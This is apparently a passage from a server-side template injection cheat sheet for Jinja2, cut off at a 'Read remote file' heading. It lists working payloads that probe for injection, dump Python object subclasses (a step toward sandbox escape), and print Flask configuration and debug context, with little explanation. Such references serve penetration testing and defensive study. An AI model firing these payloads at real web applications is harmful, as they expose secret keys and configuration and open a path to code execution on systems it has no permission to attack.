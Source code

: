 ## Jinja2

[Official website](http://jinja.pocoo.org/)

> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.

### Jinja2 - Basic injection

    {{4*4}}[[5*5]]
    {{7*'7'}} would result in 7777777
    {{config.items()}}

Jinja2 is used by Python Web Frameworks such as Django or Flask. The above injections have been tested on Flask application.

### Jinja2 - Template format

    {% extends "layout.html" %}
    {% block body %}
      <ul>
      {% for user in users %}
        <li><a href="{{ user.url }}">{{ user.username }}</a></li>
      {% endfor %}
      </ul>
    {% endblock %}

### Jinja2 - Debug Statement

If the Debug Extension is enabled, a `{% debug %}` tag will be available to dump the current context as well as the available filters and tests. This is useful to see what’s available to use in the template without setting up a debugger.

    <pre>{% debug %}</pre>

Source: [https://jinja.palletsprojects.com/en/2.11.x/templates/\#debug-statement](https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement)

### Jinja2 - Dump all used classes

    {{ [].class.base.subclasses() }}
    {{''.class.mro()[1].subclasses()}}
    {{ ''.__class__.__mro__[2].__subclasses__() }}

### Jinja2 - Dump all config variables

    {% for key, value in config.iteritems() %}
        <dt>{{ key|e }}</dt>
        <dd>{{ value|e }}</dd>
    {% endfor %}

### Jinja2 - Read remote file
